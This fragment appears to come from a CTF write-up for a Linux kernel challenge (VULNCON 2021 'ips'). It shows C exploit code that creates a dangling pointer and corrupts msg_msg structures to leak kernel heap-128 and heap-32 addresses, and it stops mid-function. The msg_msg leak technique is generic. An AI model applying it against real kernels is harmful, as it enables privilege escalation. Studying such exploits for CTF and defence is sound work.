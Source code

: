 ```c
    // 2. Leak kernel addresses by msgmsg
    

    // Delet to create a dangling pointer
    del(0);
    int msgid   = msgQueueSpwan("/home/user/1");
    int msgid2  = msgQueueSpwan("/home/user/2");
    int msgid3  = msgQueueSpwan("/home/user/3");
    // int msgid4  = msgQueueSpwan("/home/user/4");
    // int msgid2  = msgQueueSpwan("/");
    msgQueueSend(msgid,ctx,0x50,1);
    edit(-1,"\xff\xff\1\2\3\4\5\6\7\x08\xff\xff"); 

    // spray 
    // for(int i = 0 ; i < (0x1000/0x80) ; i++)
    //     spray(msgid2);
    
    // Leak
    msgQueueMsg *res = msgQueueRecv(msgid,0xfff,0);

    size_t * dump = res->mtext;
    size_t leaked = 0 ;
    for(int i =1 ; i <(0x1000/8)-1;i++){
        if(dump[i]==0)
            continue;
        // printf("[+] %p %p %p\n",dump[i],dump[i]&0xfff,dump[i+1]&0xfff);
        if((dump[i]&0xfff)== 0x9a0 && (dump[i+1]&0xfff)==0x670){
            leaked = dump[i];
            break;
        }
    }
    if(leaked==0){
        printf("[-] Not able to leak");
        exit(1);
    }
    printf("[+][LEAK] Kernel Heap-128 %p\n",leaked);

    // Leak kheap-32

    msgQueueSend(msgid2,"Me again!",0x50,2); // -1

    char * mark = malloc(0x100);
    memset(mark,'\x69',0x100);
    msgQueueSend(msgid3,mark,0x50,3); // In heap-128
    
    // next points to heap-32
    char *probe = malloc(0x1000);
    memset(probe,'\0',0x1000);
    
    msgQueueSend(msgid3,probe,0xfd0+0x18,9); 

    // Make sure we can get it's head 
    edit(-1,strdup("\xff\xff\1\2\3\4\5\6\7\x08\xff\x0f")); 
    res = msgQueueRecv(msgid2,0xfff,0);
    dump = res->mtext;
    size_t leaked_heap32 = 0 ;
    for(int i =6 ; i <(0x1000/8)-2;i++){
        if(dump[i]==0x6969696969696969){
            leaked_heap32 = dump[i-6];
            break;
        }
    }
    if(leaked_heap32==0){
```

[1]: https://elixir.bootlin.com/linux/latest/source/fs/seq_file.c
[2]: https://elixir.bootlin.com/linux/latest/source/ipc/msg.c
[3]: https://duasynt.com/blog/linux-kernel-heap-feng-shui-2022
[4]: https://arttnba3.cn/2021/11/29/PWN-0X02-LINUX-KERNEL-PWN-PART-II/
[5]: https://github.com/sajjadium/ctf-archives/tree/0328b950496e5d12b775e8bd67d1569977ec10c0/ctfs/VULNCON/2021/pwn/ips